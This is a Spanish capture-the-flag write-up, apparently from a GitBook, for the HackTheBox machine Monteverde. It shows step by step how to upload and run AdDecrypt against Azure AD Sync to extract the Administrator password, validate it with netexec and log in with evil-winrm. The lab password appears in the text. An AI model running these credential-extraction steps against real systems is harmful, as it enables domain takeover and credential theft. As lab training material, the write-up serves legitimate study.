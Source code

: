 <figure><img src="../../../../../.gitbook/assets/976_vmware_yZPoWdOmzA.png" alt="" width="563"><figcaption></figcaption></figure>

Buscando sobre exploit sobre "Microsoft Azure AD Sync" hemos encontrado un blog donde explica como intentar explotar dicha vulnerabilidad. [Azure AD Connect Database Exploit PrivEsc](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)

Nos descargaremos el [AdDecrypt](https://github.com/VbScrub/AdSyncDecrypt/releases) en nuestra Kali, moveremos el contenido a nuestro directorio actual de trabajo, lo descomprimiremos y subiremos el .exe y el .dll al equipo comprometido a través de **evil-winrm**.

```bash
mv /home/kali/Descargas/AdDecrypt.zip .

unzip AdDecrypt.zip

ls -l

upload /home/kali/Desktop/HackTheBox/Windows/Monteverde/content/AdDecrypt.exe

upload /home/kali/Desktop/HackTheBox/Windows/Monteverde/content/mcrypt.dll
```

<figure><img src="../../../../../.gitbook/assets/977_vmware_3bfrQvNHfM.png" alt=""><figcaption></figcaption></figure>

Nos dirigiremos al directorio mencionado y procederemos a ejecutar el "AdDecrypt.exe" que lo disponemos en C:\Windows\Temp y de argumento le pasaremos -FullSQL

Comprobamos que nos muestra la contraseña del usuario "Administrator".

```bash
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"

C:\Windows\Temp\AdDecrypt.exe -FullSQL
```

<figure><img src="../../../../../.gitbook/assets/978_vmware_u4vyjkQRDB.png" alt="" width="563"><figcaption></figcaption></figure>

Probaremos con **netexec** de validar que el usuario Administrator y las credenciales encontradas se pueden conectar al WinRM. Comprobamos que nos aparece como _Pwn3d_.

```bash
netexec winrm 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/979_vmware_PXpZkUVsbM.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos con **evil-winrm** al equipo mencionado con las credenciales del usuario Administrator y comprobaremos que ganamos acceso y localizamos la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/980_vmware_NWkYGNz3Lc.png" alt=""><figcaption></figcaption></figure>
